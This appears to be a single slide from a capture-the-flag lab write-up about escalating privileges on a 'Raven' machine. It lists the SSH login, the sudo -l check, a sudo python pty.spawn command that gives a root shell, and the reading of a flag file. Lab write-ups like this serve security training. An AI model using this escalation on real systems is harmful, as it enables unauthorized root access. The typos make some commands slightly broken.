

# Exploitation 4: Privilege  Escalation
Summarize the following:
How did you exploit the vulnerability?
Run ssh steven@192.168.1.110 –p 22
Check for exact command that steven is authorized to use:  sudo –l
Steven run on pyhton application on raven websites.
Used a python shell:  sudo python –c ‘import pty;pty.spawn(“/bin/bash/”)’
Run cd /root and ls –la
Flag4.txt found and run: cat flag4.txt

17